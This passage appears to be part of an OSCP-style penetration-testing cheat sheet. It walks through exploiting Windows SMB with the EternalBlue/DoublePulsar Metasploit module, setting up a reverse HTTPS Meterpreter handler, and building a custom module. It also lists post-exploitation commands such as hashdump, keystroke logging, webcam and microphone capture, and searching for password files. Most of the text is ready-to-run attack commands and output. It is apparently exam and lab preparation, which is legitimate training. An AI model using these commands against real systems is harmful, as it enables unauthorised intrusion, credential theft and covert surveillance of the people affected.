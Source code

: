     2. Download the exploit repostory `https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit`
    3. Move the exploit to `/usr/share/metasploit-framework/modules/exploits/windows/smb` or `~/.msf4/modules/exploits/windows/smb`
    4. Start metasploit console

- I found that using spoolsv.exe as the PROCESSINJECT yielded results on OSCP boxes.

      ```shell
      use exploit/windows/smb/eternalblue_doublepulsar
      msf exploit(eternalblue_doublepulsar) > set RHOST 10.10.10.10
      RHOST => 10.10.10.10
      msf exploit(eternalblue_doublepulsar) > set PROCESSINJECT spoolsv.exe
      PROCESSINJECT => spoolsv.exe
      msf exploit(eternalblue_doublepulsar) > run
      ```

- Experimenting with Meterpreter
  - Get system information from Meterpreter Shell `sysinfo`
  - Get user id from Meterpreter Shell `getuid`
  - Search for a file `search -f *pass*.txt`
  - Upload a file `upload /usr/share/windows-binaries/nc.exe c:\\Users\\Offsec`
  - Download a file `download c:\\Windows\\system32\\calc.exe /tmp/calc.exe`
  - Invoke a command shell from Meterpreter Shell `shell`
  - Exit the meterpreter shell `exit`
- Metasploit Exploit Multi Handler
  - multi/handler to accept an incoming reverse_https_meterpreter

        ```shell
        payload  
        use exploit/multi/handler  
        set PAYLOAD windows/meterpreter/reverse_https  
        set LHOST $ip  
        set LPORT 443  
        exploit  
        [*] Started HTTPS reverse handler on https://$ip:443/
        ```

- Building Your Own MSF Module

      ```shell
      mkdir -p ~/.msf4/modules/exploits/linux/misc  
      cd ~/.msf4/modules/exploits/linux/misc  
      cp /usr/share/metasploitframework/modules/exploits/linux/misc/gld_postfix.rb ./crossfire.rb  
      nano crossfire.rb
      ```

- Post Exploitation with Metasploit - (available options depend on OS and Meterpreter Cababilities)
  - `download` Download a file or directory  
        `upload` Upload a file or directory  
        `portfwd` Forward a local port to a remote service  
        `route` View and modify the routing table  
        `keyscan_start` Start capturing keystrokes  
        `keyscan_stop` Stop capturing keystrokes  
        `screenshot` Grab a screenshot of the interactive desktop  
        `record_mic` Record audio from the default microphone for X seconds  
        `webcam_snap` Take a snapshot from the specified webcam  
        `getsystem` Attempt to elevate your privilege to that of local system.  
        `hashdump` Dumps the contents of the SAM database
- Meterpreter Post Exploitation Features
  - Create a Meterpreter background session `background`
